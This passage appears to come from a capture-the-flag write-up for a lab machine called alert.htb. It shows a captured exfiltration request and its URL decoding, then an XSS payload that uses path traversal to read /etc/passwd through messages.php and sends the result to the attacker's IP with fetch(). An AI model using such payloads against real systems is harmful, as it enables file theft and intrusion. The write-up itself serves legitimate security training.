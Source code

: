 ```
connect to [10.10.14.191] from (UNKNOWN) [10.129.95.162] 60474
GET /?res=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1
Host: 10.10.14.191
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

We decode the `res` parameter:

```
node

> const content = '%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A'
> const decoded = decodeURIComponent(content)
> console.log(decoded)
```

```html
<h1>Messages</h1>
<ul>
    <li>
        <a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a>
    </li>
</ul>
```

There is a link to `messages.php` with a `file` parameter. We can test for path traversal on it.

We use the same payload as before, but now setting the `file` parameter to `../../../../../../etc/passwd`.

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php?file=../../../../../../etc/passwd')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

When we receive the response and decode it:

```
node

```
